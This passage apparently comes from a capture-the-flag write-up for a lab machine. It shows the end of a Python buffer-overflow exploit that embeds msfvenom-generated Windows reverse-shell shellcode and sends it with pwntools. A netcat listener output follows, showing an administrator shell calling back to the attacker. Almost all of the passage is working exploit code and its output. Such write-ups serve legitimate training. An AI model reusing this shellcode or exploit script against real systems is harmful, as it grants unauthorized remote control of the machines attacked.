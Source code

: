 ```python
    #shellcode
    # msfvenom -p windows/shell_reverse_tcp lhost=IP_LHOST lport=PORT -b "\x00\x0a\x0d\xff" -f py -v shellcode EXITFUNC=thread
    shellcode =  b""
    shellcode += b"\xdb\xce\xd9\x74\x24\xf4\xbb\xb9\x46\xc1\xe7"
    shellcode += b"\x5a\x31\xc9\xb1\x52\x83\xea\xfc\x31\x5a\x13"
    shellcode += b"\x03\xe3\x55\x23\x12\xef\xb2\x21\xdd\x0f\x43"
    shellcode += b"\x46\x57\xea\x72\x46\x03\x7f\x24\x76\x47\x2d"
    shellcode += b"\xc9\xfd\x05\xc5\x5a\x73\x82\xea\xeb\x3e\xf4"
    shellcode += b"\xc5\xec\x13\xc4\x44\x6f\x6e\x19\xa6\x4e\xa1"
    shellcode += b"\x6c\xa7\x97\xdc\x9d\xf5\x40\xaa\x30\xe9\xe5"
    shellcode += b"\xe6\x88\x82\xb6\xe7\x88\x77\x0e\x09\xb8\x26"
    shellcode += b"\x04\x50\x1a\xc9\xc9\xe8\x13\xd1\x0e\xd4\xea"
    shellcode += b"\x6a\xe4\xa2\xec\xba\x34\x4a\x42\x83\xf8\xb9"
    shellcode += b"\x9a\xc4\x3f\x22\xe9\x3c\x3c\xdf\xea\xfb\x3e"
    shellcode += b"\x3b\x7e\x1f\x98\xc8\xd8\xfb\x18\x1c\xbe\x88"
    shellcode += b"\x17\xe9\xb4\xd6\x3b\xec\x19\x6d\x47\x65\x9c"
    shellcode += b"\xa1\xc1\x3d\xbb\x65\x89\xe6\xa2\x3c\x77\x48"
    shellcode += b"\xda\x5e\xd8\x35\x7e\x15\xf5\x22\xf3\x74\x92"
    shellcode += b"\x87\x3e\x86\x62\x80\x49\xf5\x50\x0f\xe2\x91"
    shellcode += b"\xd8\xd8\x2c\x66\x1e\xf3\x89\xf8\xe1\xfc\xe9"
    shellcode += b"\xd1\x25\xa8\xb9\x49\x8f\xd1\x51\x89\x30\x04"
    shellcode += b"\xf5\xd9\x9e\xf7\xb6\x89\x5e\xa8\x5e\xc3\x50"
    shellcode += b"\x97\x7f\xec\xba\xb0\xea\x17\x2d\xb5\xe0\x19"
    shellcode += b"\xa0\xa1\xf6\x25\x99\x18\x7e\xc3\xb7\x4a\xd6"
    shellcode += b"\x5c\x20\xf2\x73\x16\xd1\xfb\xa9\x53\xd1\x70"
    shellcode += b"\x5e\xa4\x9c\x70\x2b\xb6\x49\x71\x66\xe4\xdc"
    shellcode += b"\x8e\x5c\x80\x83\x1d\x3b\x50\xcd\x3d\x94\x07"
    shellcode += b"\x9a\xf0\xed\xcd\x36\xaa\x47\xf3\xca\x2a\xaf"
    shellcode += b"\xb7\x10\x8f\x2e\x36\xd4\xab\x14\x28\x20\x33"
    shellcode += b"\x11\x1c\xfc\x62\xcf\xca\xba\xdc\xa1\xa4\x14"
    shellcode += b"\xb2\x6b\x20\xe0\xf8\xab\x36\xed\xd4\x5d\xd6"
    shellcode += b"\x5c\x81\x1b\xe9\x51\x45\xac\x92\x8f\xf5\x53"
    shellcode += b"\x49\x14\x15\xb6\x5b\x61\xbe\x6f\x0e\xc8\xa3"
    shellcode += b"\x8f\xe5\x0f\xda\x13\x0f\xf0\x19\x0b\x7a\xf5"
    shellcode += b"\x66\x8b\x97\x87\xf7\x7e\x97\x34\xf7\xaa"
        
    payload = buffer + eip + nops + shellcode
    #prompt=">> "
    conn = remote(host,port)
    #conn.recvuntil(prompt)
    conn.sendline(payload)
    conn.close()
    print("[+] Payload sent")
    
if __name__ == '__main__':
    exploit()      
```

finally I receive a shell as administrator

```shell
$ rlwrap nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.198] 49704
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator

C:\Windows\system32>
```
